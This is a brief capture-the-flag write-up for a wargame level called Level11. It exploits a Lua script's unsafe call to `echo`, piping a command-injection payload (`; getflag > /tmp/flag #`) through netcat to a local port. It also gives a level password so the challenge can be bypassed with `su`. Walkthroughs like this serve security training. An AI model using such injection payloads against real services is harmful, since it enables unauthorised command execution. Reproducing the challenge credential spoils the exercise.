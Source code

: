 # Level11
There are two ways to do this one :

The classic way is by exploiting the `level11.lua` script with its unsecure execution of `echo` with the input parameters.
>`echo " lol ; getflag > /tmp/flag #" | nc 127.0.0.1 5151`

Get the flag
>`cat /tmp/flag`

The fun way is by using the **level10** Token to directly access the **flag11** user, thereby bypassing **level11**.  
>`su flag11`  
then paste `woupa2yuojeeaaed06riuj63c`
